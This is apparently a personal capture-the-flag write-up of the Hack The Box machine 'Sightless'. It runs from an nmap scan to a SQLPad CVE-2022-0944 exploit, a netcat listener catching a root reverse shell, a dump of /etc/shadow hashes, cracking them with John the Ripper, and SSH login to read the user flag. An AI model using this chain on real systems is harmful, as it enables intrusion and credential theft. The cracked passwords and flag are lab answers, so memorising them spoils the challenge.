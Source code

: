 
![](Pasted%20image%2020241020223114.png)
###### [more](https://app.hackthebox.com/machines/Sightless)
# Recon

- Nmap scan

> nmap -sCSV -T4 $ip
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 01:36 AEDT
Nmap scan report for 10.10.11.32 (10.10.11.32)
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=6713C3F1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.11 seconds
```

- checking http://sightless.htb
- fond http://sqlpad.sightless.htb/

# Vulnerability Discovery

- fond vulnerability in sqlpad - [here](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
- found more info about the vulnerability - [here](https://github.com/shhrew/CVE-2022-0944?tab=readme-ov-file)

# Exploitation

> python3 main.py http://sqlpad.sightless.htb/ 10.10.16.30 9999            
```
[┤] Trying to bind to 10.10.16.30 on port 9999: Trying 10.10.16.30
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/lnxuser/ctfs/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/lnxuser/ctfs/CVE-2022-0944/venv/lib/python3.12/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

>  nc -vlnp 9999
```
listening on [any] 9999 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.32] 37106
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Post-Exploitation

- checking /etc/shadow file

> cat /etc/shadow
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

- seems like user flags can be cracked by john the ripper
- store michael and root line in hash.txt and use john

> john hash.txt -w=/usr/share/wordlists/rockyou.txt    
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:06 DONE (2024-10-20 03:21) 0.3322g/s 10205p/s 17009c/s 17009C/s XIOMARA..sinead1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# CTUF 

- after ssh-ing michael I found the user flag

> ssh michael@10.10.11.32 
```        
michael@10.10.11.32's password: 
Last login: Sat Oct 19 16:24:49 2024 from 10.10.16.31
michael@sightless:~$ ls
exploit.py  linpease.sh  new  README  result.txt  user.txt
michael@sightless:~$ cat user.txt 
4e365dc2a4a1350b73e96c3e232fe9e2
```

# Privilege Escalation

- TBD